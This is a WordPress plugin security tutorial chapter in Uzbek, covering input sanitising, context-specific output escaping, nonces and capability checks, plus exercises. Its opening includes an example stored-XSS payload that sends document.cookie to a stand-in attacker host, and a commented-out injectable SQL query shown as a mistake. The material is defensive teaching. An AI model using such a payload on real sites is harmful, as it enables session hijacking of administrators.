



# 12 — Xavfsizlik asoslari: nonce, sanitize, escape

[⬅️ Oldingi: 11 — Foydalanuvchi, rol va capabilities](./11-rollar-capabilities.md) · [🏠 README](./README.md) · [Keyingi: 13 — Shortcode'lar ➡️](./13-shortcode.md)

> **Bu bobda:** WordPress plugin xavfsizligining uchta ustunini — kirishni tozalash (**sanitize**), chiqishni qochirish (**escape**) va harakatni himoyalash (**nonce + capability**) — chuqur o'rganasiz: oltin qoidani, har bir sanitize funksiyasini (`sanitize_text_field`, `sanitize_email`, `absint`, `sanitize_key`, `wp_kses`/`wp_kses_post`, `wp_unslash`), kontekstga bog'liq escape funksiyalarini (`esc_html`, `esc_attr`, `esc_url`, `esc_js`, `esc_textarea`) va nonce oilasini (`wp_create_nonce`, `wp_verify_nonce`, `check_admin_referer`, `check_ajax_referer`, `wp_nonce_field`, `wp_nonce_url`) — barchasi rasmiy docs bilan tasdiqlangan imzolar bilan; oxirida XSS, CSRF, SQLi, IDOR va fayl yuklash zaifliklarini va ularning har biriga himoyani ko'rib chiqamiz.

---

## Muammo: bitta unutilgan escape — butun saytni qulaydi

Tasavvur qiling: siz `kitoblar-katalogi` plugin'ida kitob muallifini shunday chiqardingiz:

```php
echo '<p>Muallif: ' . get_post_meta( $post_id, '_kitob_muallif', true ) . '</p>';
```

Bir kun kimdir muallif maydoniga `<script>fetch('https://yomon.uz/o\x67rla?c='+document.cookie)</script>` yozadi. Endi shu kitob sahifasini ochgan **har bir admin**'ning cookie'si o'g'irlanadi — hujumchi admin sifatida saytga kiradi. Bu — **saqlangan XSS** (Stored Cross-Site Scripting), eng keng tarqalgan WordPress zaifligi. Sababi bitta: chiqishda **escape qilinmagan**.

WordPress'ning butun ekotizimi (40%+ internet saytlari) shu kabi xatolarga tayanadi. Yaxshi xabar: himoya **uch oddiy odat**dan iborat. Yomon xabar: ulardan birortasini unutsangiz, zaiflik tayyor.

📌 **Bu bob — butun kitobning xavfsizlik poydevori.** 09-bobda nonce'ni, 10-bobda `$wpdb->prepare`'ni allaqachon ishlatdik. Bu yerda hammasini bitta tizimga jamlaymiz va har bir funksiyani aniq tushuntiramiz. Keyingi barcha boblar (shortcode, AJAX, REST, blok) shu qoidalarga tayanadi.

---

## Oltin qoida: uch ustun

WordPress xavfsizligining hammasini bitta jumlaga sig'dirsa bo'ladi:

> **INPUT'ni sanitize qil, OUTPUT'ni escape qil, harakatni nonce + capability bilan himoyala.**



Bu uchligini doim shu tartibda eslang. Ma'lumot plugin'ingizga **kiradi** (forma, URL, REST, fayl) — uni **sanitize** qilasiz. Ma'lumot foydalanuvchiga **chiqadi** (HTML, atribut, URL) — uni **escape** qilasiz. Kimdir biror **harakat** so'raydi (saqlash, o'chirish) — **nonce** bilan "haqiqatan shu foydalanuvchimi?" va **capability** bilan "huquqi bormi?" deb tekshirasiz.

⚠️ **Sanitize va escape — bir xil narsa emas.** Boshlovchilar ko'p qilaydigan xato: kirishda escape qilish yoki "bir marta tozalaganman, chiqishda kerak emas" deb o'ylash. Yo'q. Sanitize — kirishni **ishlatishga yaroqli holatga** keltiradi (masalan email formatiga). Escape — chiqishni **aniq kontekst uchun xavfsiz** qiladi (HTML matnmi, atributmi, URLmi). Bir qiymat bazada toza saqlanib, chiqishda baribir escape qilinishi kerak — chunki uni qanday kontekstda ko'rsatishingizni saqlash payti bilmaydi.

---

## 1-ustun: SANITIZE (kirishni tozalash)

**Sanitize** — tashqaridan kelgan ishonchsiz ma'lumotni ishlatishdan oldin tozalash. "Tashqaridan" degani: `$_POST`, `$_GET`, `$_REQUEST`, `$_COOKIE`, REST so'rovi, yuklangan fayl nomi, hatto bazadagi eski ma'lumot ham (chunki uni boshqa plugin yozgan bo'lishi mumkin).

### `wp_unslash` — har doim BIRINCHI qadam

WordPress tarixiy sabablarga ko'ra `$_POST`, `$_GET`, `$_REQUEST`, `$_COOKIE` ichidagi qiymatlarga avtomatik **slesh** (`\`) qo'shadi. Shuning uchun superglobal'dan o'qishda **birinchi** `wp_unslash()` qilasiz, **keyin** sanitize:

```php
$xom  = wp_unslash( $_POST['kitob_muallif'] ?? '' ); // slesh'lar olib tashlandi
$toza = sanitize_text_field( $xom );                  // endi tozalaymiz
```

ℹ️ **Imzo (docs bilan tasdiqlangan):** `wp_unslash( string|array $value ): string|array`. Massivni rekursiv unslash qiladi.

### Asosiy sanitize funksiyalari

Har bir kirish turi uchun **mos** funksiya bor. Tasodifiy birini emas, aynan ma'lumot turiga to'g'ri kelganini tanlang:

```php
// Bir qatorli matn (yangi qator, tag, ortiqcha bo'shliqlarni olib tashlaydi):
$ism = sanitize_text_field( wp_unslash( $_POST['ism'] ?? '' ) );

// Ko'p qatorli matn (yangi qatorlarni SAQLAYDI — textarea uchun):
$izoh = sanitize_textarea_field( wp_unslash( $_POST['izoh'] ?? '' ) );

// Email (yaroqsiz belgilarni olib tashlaydi; bo'sh string qaytishi mumkin):
$email = sanitize_email( wp_unslash( $_POST['email'] ?? '' ) );

// Butun, manfiy bo'lmagan son (absolute integer):
$yil = absint( $_POST['yil'] ?? 0 ); // 0 yoki musbat butun

// "Kalit" — faqat kichik harf, raqam, - va _ (slug, meta kalit, ID nomi):
$tab = sanitize_key( wp_unslash( $_GET['tab'] ?? '' ) );

// URL slug / sarlavhadan slug:
$slug = sanitize_title( wp_unslash( $_POST['slug'] ?? '' ) ); // "Mening Kitobim" -> "mening-kitobim"
```

📌 **Imzolar (har biri developer.wordpress.org bilan tasdiqlangan):**

| Funksiya | Imzo | Nima qiladi |
|---|---|---|
| `sanitize_text_field` | `sanitize_text_field( string $str ): string` | Tag, yangi qator, ortiqcha bo'shliq olib tashlanadi |
| `sanitize_textarea_field` | `sanitize_textarea_field( string $str ): string` | Yuqoridagidek, lekin yangi qator saqlanadi |
| `sanitize_email` | `sanitize_email( string $email ): string` | Email formatidan tashqari belgilar olib tashlanadi |
| `sanitize_key` | `sanitize_key( string $key ): string` | Faqat `[a-z0-9_-]` qoldiriladi, kichik harfga o'tkaziladi |
| `sanitize_title` | `sanitize_title( string $title, ... ): string` | URL-friendly slug |
| `absint` | `absint( mixed $maybeint ): int` | `abs( (int) $val )` — manfiy bo'lmagan butun |

💡 **`sanitize_key` — nega `$_GET['tab']` uchun zo'r?** Admin sahifada tab nomi ko'pincha `?tab=sozlamalar` kabi keladi va uni HTML id/class yoki `switch` ichida ishlatasiz. `sanitize_key` har qanday g'alati belgini (`<`, bo'shliq, nuqta) tashlab, faqat xavfsiz kalit qoldiradi.

### HTML kerak bo'lganda: `wp_kses` va `wp_kses_post`

Ba'zan kirish **HTML saqlashi kerak** — masalan kitob tavsifi `<strong>`, `<a>`, `<em>` ishlatsin. Bu yerda `sanitize_text_field` ishlamaydi (u barcha tag'ni o'chiradi). Yechim — **allowlist** (oq ro'yxat): faqat siz ruxsat bergan tag'lar qoladi.

```php
// Tayyor allowlist: post kontentidagi xavfsiz tag'lar (a, strong, em, ul, li, ...):
$tavsif = wp_kses_post( wp_unslash( $_POST['tavsif'] ?? '' ) );

// O'z allowlist'ingiz — faqat 3 ta tag:
$allowed = [
	'a'      => [ 'href' => [], 'title' => [] ],
	'strong' => [],
	'em'     => [],
];
$qisqa = wp_kses( wp_unslash( $_POST['qisqa'] ?? '' ), $allowed );
```

ℹ️ **Imzolar (docs bilan tasdiqlangan):**

- `wp_kses( string $content, array[]|string $allowed_html, string[] $allowed_protocols = array() ): string`
- `wp_kses_post( string $content ): string` — `wp_kses` ning post-kontekstli qisqasi (post yozish huquqi bo'lganlar ishlatishi mumkin bo'lgan tag'lar).

⚠️ **`wp_kses` "ataylab" sekin.** U har bir tag va atributni tekshiradi. Shuning uchun uni faqat **HTML haqiqatan kerak bo'lganda** ishlating; oddiy matn uchun `sanitize_text_field` yengilroq va xavfsizroq. KSES = "Kses Strips Evil Scripts".

📌 **`wp_kses` ham sanitize, ham (qisman) escape vazifasini bajaradi.** U xavfli tag'larni (`<script>`, `<iframe>`, `onclick=` atributlari) tashlab, faqat allowlist'dagini qoldiradi — shuning uchun uni chiqishda ham ishonchli ishlatish mumkin (masalan `echo wp_kses_post( $tavsif )`).

---

## 2-ustun: ESCAPE (chiqishni KONTEKST bo'yicha qochirish)

Bu — butun bobning **eng muhim** tushunchasi. Escape — ma'lumotni foydalanuvchiga ko'rsatishdan oldin, **aynan o'sha joyga (kontekstga)** xavfsiz qilish. Bir xil qiymat HTML matnida, atributda, URL'da va JS ichida **har xil** escape talab qiladi. Noto'g'ri kontekst funksiyasi = zaiflik.



### To'rt asosiy kontekst

```php
$qiymat = get_post_meta( $post_id, '_kitob_muallif', true );
$url    = get_post_meta( $post_id, '_kitob_havola', true );

// 1) HTML MATN ichida (teglar orasida):
echo '<p>Muallif: ' . esc_html( $qiymat ) . '</p>';

// 2) HTML ATRIBUT ichida (tirnoq ichida):
echo '<input type="text" value="' . esc_attr( $qiymat ) . '">';

// 3) URL (href, src):
echo '<a href="' . esc_url( $url ) . '">Havola</a>';

// 4) Inline JS ichida (string sifatida):
echo '<script>var muallif = "' . esc_js( $qiymat ) . '";</script>';

// 5) <textarea> ichida (atribut emas, alohida funksiya):
echo '<textarea>' . esc_textarea( $qiymat ) . '</textarea>';

// 6) Ruxsat etilgan HTML chiqarish (allowlist):
echo wp_kses_post( $tavsif );
```

📌 **Nega har biri alohida?** Har kontekstning "qochish" qoidasi boshqacha:

- **`esc_html`** — `<`, `>`, `&`, `"`, `'` ni HTML entity'ga aylantiradi. Matn ichida tag yozib bo'lmaydi.
- **`esc_attr`** — atribut tirnog'ini "yopishdan" himoya qiladi. `esc_html`'ga o'xshaydi, lekin atribut kontekstiga moslangan. `value="..."` ichida `esc_html` emas, `esc_attr` ishlating.
- **`esc_url`** — faqat ruxsat etilgan protokollarni (`http`, `https`, `mailto`...) qoldiradi; `javascript:` URL'ni **bloklaydi**. `&` ni `&#038;` ga aylantiradi.
- **`esc_js`** — JS string ichidagi tirnoq va yangi qatorni qochiradi (faqat `'...'`/`"..."` ichida ishlatiladi).
- **`esc_textarea`** — `<textarea>` tarkibi uchun (atribut emas).

⚠️ **Eng keng tarqalgan xato — kontekstni adashtirish.** `value="<?php echo esc_html( $x ); ?>"` — bu **noto'g'ri**, atribut uchun `esc_attr` kerak. Garchi `esc_html` ham `"` ni qochirsa-da, atributda doim `esc_attr` ishlating; aks holda kelajakda kimdir `esc_html`'siz qiymatni ko'chirib, zaiflik kiritadi. Kontekst = funksiya, qoidasi qat'iy.

ℹ️ **Imzolar (docs bilan tasdiqlangan):**

- `esc_html( string $text ): string`
- `esc_attr( string $text ): string`
- `esc_url( string $url, string[] $protocols = null, string $_context = 'display' ): string`
- `esc_js( string $text ): string`
- `esc_textarea( string $text ): string`

💡 **`esc_url` ning "raw" varianti.** Chiqishda `esc_url()`, bazaga saqlashda esa `esc_url_raw()` (yangi nom `sanitize_url()`). Farqi: `esc_url` ko'rsatish uchun `&` ni `&#038;` ga aylantiradi (HTML uchun yaxshi, baza uchun yomon); `sanitize_url`/`esc_url_raw` esa tozalaydi lekin HTML entity'ga aylantirmaydi.

### Escape + i18n birga

Plugin matnlari tarjima qilinadi (`__()`, `_e()` — 24-bobda chuqur). Tarjima ham foydalanuvchiga **chiqadi**, demak escape kerak. WordPress'da escape va i18n birlashtirilgan funksiyalar bor:

```php
// __() o'rniga (qaytaradi):
echo esc_html__( 'Muallif', 'kitoblar-katalogi' );

// _e() o'rniga (to'g'ridan-to'g'ri echo qiladi):
esc_html_e( 'Kitob tafsilotlari', 'kitoblar-katalogi' );

// Atribut uchun:
echo '<input placeholder="' . esc_attr__( 'Ism kiriting', 'kitoblar-katalogi' ) . '">';
```

📌 **`_e()` xavfsizmi?** `_e()` shunchaki tarjimani echo qiladi — escape **qilmaydi**. Tarjima fayllari ham buzilishi mumkin (yoki o'zgaruvchi qo'shilsa). Shuning uchun zamonaviy idiom: matn chiqarganda doim `esc_html_e()` / `esc_html__()` (yoki atribut uchun `esc_attr_e()` / `esc_attr__()`). Toza `_e()` ni faqat siz to'liq nazorat qiladigan, o'zgaruvchisiz statik matnda qoldiring.

---

## 3-ustun: NONCE + CAPABILITY (harakatni himoyalash)

Sanitize va escape ma'lumotning **mazmunini** himoyalaydi. Lekin "kim va qaysi sharoitda bu harakatni so'radi?" degan savol qoladi. Bunga ikki javob bor: **nonce** (so'rov haqiqiyligini tasdiqlaydi) va **capability** (foydalanuvchi huquqini tekshiradi).

### Nonce nima va nega kerak (CSRF himoyasi)

**Nonce** ("number used once") — har bir harakatga, foydalanuvchiga va vaqtga bog'langan qisqa token. Maqsadi — **CSRF** (Cross-Site Request Forgery) hujumini to'sish.

CSRF qanday ishlaydi: siz admin sifatida saytingizga login bo'lgansiz. Boshqa tabda zararli sayt ochasiz. U sahifa yashirincha sizning saytingizga so'rov yuboradi — masalan `?action=kitob_ochir&id=5`. Brauzer cookie'ni avtomatik biriktiradi, server "login bo'lgan admin so'radi" deb o'ylab kitobni o'chiradi. Siz hatto sezmaysiz.



Nonce buni to'sadi: haqiqiy forma/havola nonce token bilan keladi. Zararli sayt sizning amaldagi nonce'ingizni **bila olmaydi** (u har foydalanuvchi va harakat uchun boshqacha va vaqt bilan cheklangan). Token bo'lmasa yoki mos kelmasa — server **rad etadi**.

⚠️ **Nonce — to'liq CSRF token emas, lekin WordPress kontekstida yetarli.** U vaqt bilan cheklangan (standart 24 soat) va foydalanuvchi sessiyasiga bog'langan. WordPress'da nonce yagona standart CSRF himoyasi — hammasini shu bilan qiling.

### Nonce hayot sikli: yaratish va tekshirish

```php
// 1) FORMADA — yashirin maydon (eng ko'p ishlatiladigan):
wp_nonce_field( 'kitkat_kitob_ochir', 'kitkat_nonce' );
//              ^ action (kontekst)    ^ maydon nomi

// 2) URL'da — havolaga nonce qo'shish (o'chirish havolasi va h.k.):
$havola = wp_nonce_url(
	admin_url( 'admin-post.php?action=kitkat_ochir&id=' . $id ),
	'kitkat_kitob_ochir',  // action
	'kitkat_nonce'         // nom
);

// 3) Qo'lda token yaratish (AJAX/REST'ga uzatish uchun):
$token = wp_create_nonce( 'kitkat_kitob_ochir' );

// --- TEKSHIRISH (server tomonda) ---

// 4a) Admin forma/havola uchun (yaroqsiz bo'lsa O'ZI die qiladi):
check_admin_referer( 'kitkat_kitob_ochir', 'kitkat_nonce' );

// 4b) Qo'lda tekshirish (jim return qilmoqchi bo'lsangiz):
$nonce = sanitize_key( wp_unslash( $_POST['kitkat_nonce'] ?? '' ) );
if ( ! wp_verify_nonce( $nonce, 'kitkat_kitob_ochir' ) ) {
	return; // yoki wp_die()
}

// 4c) AJAX uchun:
check_ajax_referer( 'kitkat_kitob_ochir', 'kitkat_nonce' );
```

📌 **Imzolar (har biri developer.wordpress.org bilan tasdiqlangan):**

| Funksiya | Imzo |
|---|---|
| `wp_create_nonce` | `wp_create_nonce( string|int $action = -1 ): string` |
| `wp_verify_nonce` | `wp_verify_nonce( string $nonce, string|int $action = -1 ): int|false` |
| `wp_nonce_field` | `wp_nonce_field( int|string $action = -1, string $name = '_wpnonce', bool $referer = true, bool $display = true ): string` |
| `wp_nonce_url` | `wp_nonce_url( string $actionurl, int|string $action = -1, string $name = '_wpnonce' ): string` |
| `check_admin_referer` | `check_admin_referer( int|string $action = -1, string $query_arg = '_wpnonce' ): int|false` |
| `check_ajax_referer` | `check_ajax_referer( int|string $action = -1, false|string $query_arg = false, bool $stop = true ): int|false` |

💡 **`wp_verify_nonce` qaytaradi:** `1` (0-12 soat oldin yaratilgan), `2` (12-24 soat), `false` (yaroqsiz). Odatda faqat `false`'ni tekshirasiz.

⚠️ **`check_admin_referer` va `check_ajax_referer` yaroqsiz nonce'da O'ZI to'xtatadi** (`wp_die`/`die`). Agar "jim qaytish" (return) kerak bo'lsa — `wp_verify_nonce` + `if` ishlating. 09-bobda meta box saqlashda aynan shuni qildik.

### Capability: nonce yetarli emas

Nonce "so'rov haqiqiy formadan keldimi?" deb tekshiradi. Lekin **bu foydalanuvchining huquqi bormi?** — alohida savol. Login bo'lgan oddiy obunachi ham haqiqiy nonce ola oladi, lekin u kitobni o'chira olmasligi kerak.

```php
// HAR sezgir harakatdan oldin — capability tekshiruvi (11-bob):
if ( ! current_user_can( 'delete_post', $post_id ) ) {
	wp_die( esc_html__( 'Sizda bu amalga ruxsat yo\'q.', 'kitoblar-katalogi' ) );
}
```

📌 **Nonce va capability — birga, alohida emas.** Nonce CSRF'dan, capability ruxsatsiz kirishdan himoyalaydi. Bittasi ikkinchisini almashtira olmaydi. To'liq sezgir harakat doim **nonce + capability + sanitize** bilan o'raladi.

### To'liq misol: "kitobni o'chirish" havolasi

`kitoblar-katalogi` plugin'ida admin'dan kitobni o'chirish havolasini xavfsiz quramiz:

```php
namespace Oqil\KitobKatalog;

// Havolani chiqaramiz (admin ro'yxatda):
function kitkat_ochirish_havolasi( int $kitob_id ): string {
	$url = wp_nonce_url(
		admin_url( 'admin-post.php?action=kitkat_kitob_ochir&kitob_id=' . $kitob_id ),
		'kitkat_kitob_ochir_' . $kitob_id, // action ID bilan — har kitobga boshqa nonce
		'kitkat_nonce'
	);
	return '<a href="' . esc_url( $url ) . '">'
		. esc_html__( 'O\'chirish', 'kitoblar-katalogi' ) . '</a>';
}

// So'rovni qayta ishlaymiz:
add_action( 'admin_post_kitkat_kitob_ochir', __NAMESPACE__ . '\\kitkat_ochir_handler' );

function kitkat_ochir_handler(): void {
	$kitob_id = absint( $_GET['kitob_id'] ?? 0 );

	// 1) Nonce — CSRF himoyasi (yaroqsiz bo'lsa check_admin_referer o'zi die qiladi)
	check_admin_referer( 'kitkat_kitob_ochir_' . $kitob_id, 'kitkat_nonce' );

	// 2) Capability — huquq tekshiruvi
	if ( ! current_user_can( 'delete_post', $kitob_id ) ) {
		wp_die( esc_html__( 'Ruxsat yo\'q.', 'kitoblar-katalogi' ) );
	}

	// 3) Harakat — endi xavfsiz
	wp_delete_post( $kitob_id, true );

	// 4) Orqaga yo'naltirish (escape qilingan URL)
	wp_safe_redirect( admin_url( 'edit.php?post_type=kitob&kitkat_ochirildi=1' ) );
	exit;
}
```

ℹ️ **O'z saytingizda sinab ko'ring.** Bu kod sintaktik to'g'ri va docs bilan tasdiqlangan, lekin `admin-post.php` oqimi, o'chirish va yo'naltirish **ishlab turgan WordPress saytini** talab qiladi (02-bobdagi `wp-env`). Plugin'ni aktivatsiya qilib, kitob ro'yxatida havolani bosib sinang. `wp_safe_redirect` — `wp_redirect`'ning xavfsiz varianti, faqat ruxsat etilgan host'larga yo'naltiradi (ochiq-redirect zaifligini to'sadi).

---

## SQL: `$wpdb->prepare` (10-bobni eslang)

To'g'ridan-to'g'ri SQL yozsangiz, foydalanuvchi kiritmasini hech qachon so'rovga **yopishtirmaslik** kerak — bu **SQL injection** (SQLi). Yechim — `$wpdb->prepare` bilan parametrlash (10-bobda chuqur ko'rildi):

```php
global $wpdb;

// ❌ HECH QACHON BUNDAY QILMANG — SQLi:
// $wpdb->get_results( "SELECT * FROM {$wpdb->posts} WHERE post_title = '$ism'" );

// ✅ To'g'ri — prepare bilan parametrlash:
$natija = $wpdb->get_results(
	$wpdb->prepare(
		"SELECT * FROM {$wpdb->posts} WHERE post_title = %s AND post_status = %s",
		$ism,        // %s — string sifatida xavfsiz qochiriladi
		'publish'
	)
);
```

📌 **`prepare` joy egalari:** `%s` (string), `%d` (butun son), `%f` (o'nli son), `%i` (identifikator — ustun/jadval nomi, yangi). Foydalanuvchi qiymati doim joy egasi orqali o'tadi, hech qachon to'g'ridan-to'g'ri stringga emas. (Imzo va batafsil tushuntirish 10-bobda; bu yerda faqat eslatma.)

---

## Umumiy zaifliklar va himoya (qisqa karta)

Endi yuqoridagi uch ustunni real hujumlarga bog'laymiz. Har bir zaiflikka — bitta himoya odati:

| Zaiflik | Nima | Himoya |
|---|---|---|
| **XSS** (Cross-Site Scripting) | Hujumchi sahifaga JS qistiradi (cookie o'g'irlash, sahifani o'zgartirish) | Chiqishda **escape** (`esc_html`/`esc_attr`/`esc_url`); HTML kerak bo'lsa `wp_kses_post` |
| **CSRF** (Cross-Site Request Forgery) | Soxta sayt sizning nomingizdan harakat so'raydi | Harakatlarda **nonce** (`wp_nonce_field` + `check_admin_referer`) |
| **SQLi** (SQL Injection) | Foydalanuvchi SQL so'rovini buzadi/o'qiydi | **`$wpdb->prepare`** bilan parametrlash |
| **IDOR** (Insecure Direct Object Reference) | URL'dagi ID'ni o'zgartirib, begona obyektga kirish (`?id=5` -> `?id=6`) | **Capability** + egalik tekshiruvi (`current_user_can( 'edit_post', $id )`) |
| **Fayl yuklash** | Zararli fayl (PHP, SVG-XSS) yuklanadi | Tur/kengaytma tekshiruvi (`wp_check_filetype_and_ext`), `wp_handle_upload` ishlatish, bajariladigan turlarni rad etish |

⚠️ **IDOR — eng ko'p e'tibordan chetda qoladigan zaiflik.** Nonce CSRF'dan himoya qiladi, lekin login bo'lgan foydalanuvchi o'z nonce'si bilan **boshqa kishining** obyektini so'rashi mumkin. `current_user_can( 'edit_post', $post_id )` aynan shu `$post_id` uchun huquqni tekshiradi — shuning uchun capability'ga doim **konkret obyekt ID'sini** uzating, faqat umumiy `'edit_posts'` emas.

💡 **Fayl yuklashda eng xavfsiz yo'l — WordPress'ning `wp_handle_upload()` va Media kutubxonasidan foydalanish.** Ular MIME tur, kengaytma va ruxsatlarni o'zi tekshiradi. O'z qo'lingiz bilan `move_uploaded_file` qilsangiz — kengaytma, MIME va bajariluvchanlikni o'zingiz tekshirishingiz kerak; xato qilish oson.

---

## Hammasi birga: xavfsiz forma qayta ishlash naqshi

Plugin'ingizdagi har bir forma-qayta-ishlash funksiyasi shu naqshga o'xshashi kerak — **eslab qolingan tartib**:

```php
namespace Oqil\KitobKatalog;

function kitkat_sozlama_saqla(): void {
	// 1) NONCE — so'rov haqiqiyligini tasdiqla (CSRF)
	check_admin_referer( 'kitkat_sozlama', 'kitkat_sozlama_nonce' );

	// 2) CAPABILITY — foydalanuvchi huquqini tekshir
	if ( ! current_user_can( 'manage_options' ) ) {
		wp_die( esc_html__( 'Ruxsat yo\'q.', 'kitoblar-katalogi' ) );
	}

	// 3) SANITIZE — har kirishni mos funksiya bilan tozala (unslash birinchi)
	$nom   = sanitize_text_field( wp_unslash( $_POST['kitkat_nom'] ?? '' ) );
	$email = sanitize_email( wp_unslash( $_POST['kitkat_email'] ?? '' ) );
	$soni  = absint( $_POST['kitkat_soni'] ?? 0 );

	// 4) SAQLASH — endi xavfsiz
	update_option( 'kitkat_sozlamalar', [
		'nom'   => $nom,
		'email' => $email,
		'soni'  => $soni,
	] );

	// (Keyinroq chiqishda — ESCAPE: echo esc_html( $nom ); esc_attr( $email ); ...)
}
```

📌 **Tartibni yodda tuting: NONCE -> CAPABILITY -> SANITIZE -> harakat -> (chiqishda) ESCAPE.** Og'ir ishni (sanitize, saqlash) faqat xavfsizlik darvozalaridan o'tgandan keyin bajaring. Bu naqsh meta box (09-bob), Settings API (06-bob), AJAX (15-bob) va REST (16-bob)'da takrorlanadi.

---

## Xulosa

- **Oltin qoida:** INPUT'ni **sanitize**, OUTPUT'ni **escape**, harakatni **nonce + capability** bilan himoyala. Bu uch ustun butun plugin xavfsizligini ko'taradi.
- **Sanitize (kirish):** `sanitize_text_field`, `sanitize_textarea_field`, `sanitize_email`, `absint`, `sanitize_key`, `sanitize_title`; HTML uchun `wp_kses`/`wp_kses_post`. Superglobal'dan o'qishda **`wp_unslash` birinchi**.
- **Escape (chiqish, KONTEKST bo'yicha):** matn=`esc_html`, atribut=`esc_attr`, URL=`esc_url`, inline JS=`esc_js`, textarea=`esc_textarea`, ruxsatli HTML=`wp_kses_post`. Noto'g'ri kontekst = zaiflik. i18n bilan `esc_html__`/`esc_html_e`.
- **Nonce (CSRF):** `wp_nonce_field`/`wp_nonce_url`/`wp_create_nonce` yaratadi; `wp_verify_nonce` (jim) yoki `check_admin_referer`/`check_ajax_referer` (o'zi die) tekshiradi.
- **Capability:** har sezgir harakatdan oldin `current_user_can( $cap, $obyekt_id )` — IDOR'dan himoya uchun konkret ID bilan.
- **SQL:** har doim `$wpdb->prepare` (`%s`/`%d`/`%f`/`%i`).
- **Zaifliklar:** XSS->escape, CSRF->nonce, SQLi->prepare, IDOR->capability+ID, fayl yuklash->`wp_handle_upload`/tur tekshiruvi.

Keyingi bobda shortcode'larni o'rganamiz — va u yerda chiqishni escape qilish (`esc_html`/`esc_attr`) hamda shortcode atributlarini sanitize qilish aynan shu bobdagi qoidalarga tayanadi.

---

## 12-bob mashqlari

> Quyidagi mashqlar `kitoblar-katalogi` plugini ustida ishlaydi (namespace `Oqil\KitobKatalog`, prefiks `kitkat_`, CPT `kitob`). Sof-PHP mashqlarni `php` bilan, WP kodini esa o'z saytingizda sinab ko'ring.

### Oson

1. **(Oson)** Oltin qoidani bir jumlada ayting. "Sanitize" va "escape" qaysi yo'nalishda (kirish/chiqish) ishlaydi?
2. **(Oson)** Quyidagi qatorda zaiflik bor — toping va to'g'rilang: `echo '<p>' . get_post_meta( $id, '_kitob_muallif', true ) . '</p>';`
3. **(Oson)** `value="..."` atributiga qiymat qo'yyapsiz. Qaysi escape funksiyasi to'g'ri: `esc_html` yoki `esc_attr`? Nega?
4. **(Oson)** `$_POST['ism']` dan matn o'qiyapsiz. To'g'ri tartibni yozing (qaysi funksiya birinchi, qaysi keyin?).
5. **(Oson)** `wp_create_nonce` va `wp_verify_nonce` qaysi hujum turidan himoya qiladi? Nima uchun nonce'ning o'zi capability tekshiruvini almashtira olmaydi?
6. **(Oson)** `?tab=...` GET parametrini admin sahifada tab kaliti sifatida ishlatyapsiz. Qaysi sanitize funksiyasi eng mos?

### O'rta

7. **(O'rta)** Bitta `$muallif` qiymatini to'rt kontekstda to'g'ri escape qiling: (a) HTML paragraf, (b) input value atributi, (c) `href` URL, (d) inline `<script>` string. Har biriga mos funksiyani yozing.

<details markdown="1"><summary>Yechim</summary>

```php
$muallif = get_post_meta( $post_id, '_kitob_muallif', true );
$url     = get_post_meta( $post_id, '_kitob_havola', true );

// (a) HTML matn:
echo '<p>' . esc_html( $muallif ) . '</p>';

// (b) atribut:
echo '<input type="text" value="' . esc_attr( $muallif ) . '">';

// (c) URL:
echo '<a href="' . esc_url( $url ) . '">Sayt</a>';

// (d) inline JS string:
echo '<script>var m = "' . esc_js( $muallif ) . '";</script>';
```

Har kontekstning qochish qoidasi boshqa: matn=`esc_html`, atribut=`esc_attr`, URL=`esc_url` (javascript: protokolini bloklaydi), JS string=`esc_js`. Funksiyani kontekstga qarab tanlanadi, "har doim esc_html" emas.
</details>

8. **(O'rta)** Kitob tavsifi maydoni `<strong>`, `<em>` va `<a href>` ga ruxsat berishi, lekin `<script>` ni rad etishi kerak. Kirishni qanday sanitize qilasiz? Ham `wp_kses_post`, ham o'z allowlist varianti bilan ko'rsating.

<details markdown="1"><summary>Yechim</summary>

```php
// Variant A — tayyor post allowlist (a, strong, em, ul, li, blockquote, ...):
$tavsif = wp_kses_post( wp_unslash( $_POST['kitob_tavsif'] ?? '' ) );

// Variant B — faqat 3 ta tag:
$allowed = [
	'strong' => [],
	'em'     => [],
